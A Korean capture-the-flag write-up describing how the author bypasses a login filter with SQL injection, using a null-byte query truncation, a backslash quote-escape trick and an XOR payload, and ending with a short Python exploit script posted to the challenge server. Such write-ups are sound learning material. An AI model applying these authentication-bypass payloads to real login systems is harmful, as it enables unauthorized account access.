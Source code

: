여러 특수문자와 키워드들을 필터링하고 있다. `superadmin` 계정에 로그인하기 위해 `init.sql`을 살펴보았다.   

```sql
CREATE TABLE users (
    id INT AUTO_INCREMENT PRIMARY KEY,
    username VARCHAR(80) NOT NULL,
    password VARCHAR(120) NOT NULL,
    create_time TIMESTAMP DEFAULT CURRENT_TIMESTAMP
) ENGINE = InnoDB
  DEFAULT CHARSET = utf8mb4
  COLLATE = utf8mb4_general_ci;
  /*!40101 SET character_set_client = @saved_cs_client */;

INSERT INTO users (username, password) VALUES ('admin', '**redact**');
INSERT INTO users (username, password) VALUES ('superadmin', '**redact**');

CREATE USER IF NOT EXISTS 'guest'@'%' IDENTIFIED BY 'guest';

GRANT SELECT,INSERT ON user_db.* TO 'guest'@'%';

FLUSH PRIVILEGES;
```        
`admin`, `superadmin` 두 계정이 존재함을 알 수 있었고, 이후 SQL Injection을 시도했다.    
    
가장 먼저 했던 부분은 주석을 사용할 수 없기 때문에 이를 우회할 방법을 찾았다.    

https://github.com/payloadbox/sql-injection-payload-list    

위 사이트에서 `;%00` 를 통해 쿼리 뒤에 부분을 날릴 수 있음을 알게 되었다.   

```python
cur.execute(f"SELECT * FROM users WHERE username='admin' AND password=''='';\x00'") # => O
cur.execute(f"SELECT * FROM users WHERE username='admin' AND password=''=''\x00'")  # => X
cur.execute(f"SELECT * FROM users WHERE username='admin' AND password=''='';'")     # => X
```                     
실제로 수행되는지 확인하기 위해 로컬환경을 구축하였다. 세미콜론(;)에 의해 뒤에 부분이 무시되는건지 테스트 해봤는데 `;`과 `\x00`를 함께 사용해야만 뒤에 부분이 무시되는 것을 확인할 수 있었다.        
     
이후, 삽질 좀 하며 연산 종류에 대해 찾아보다가 `XOR (^)`를 찾게 되었고, `^();\x00` 형태에서 변조해가며 SQL Injection을 시도했다.         
     
<img src="/assets/images/ctf/2024/whitehat/KETC-admin-main/injection.png" width=700px>     

도커에서 확인해보니 `()` 안에 값에 따라 결과가 달라는 것을 확인했다.      
       
이후, `username`에 `\\`을 넣어 username에 `'`를 single quote로 인식하게 만들어 `username`이 `\' AND password=`가 되도록 했다. `password`는 `^((id)like'1');\x00`를 넣어 id가 1인 row 가져와 XOR하여 전체 조회가 될 때 id가 1이 아닌 row 값들을 가져오도록 했다. 그래서, id가 2인 `superadmin` 계정에 로그인하여 플래그를 얻을 수 있었다.      
     
## Exploit Code    
```python
import requests 

url = "http://3.35.238.142:10000/"

r = requests.post(
    f"{url}/admin/", 
    data={
        "user": "\\",
        "pass": "^((id)like'1');\x00"
    },
)

print(r.text)
```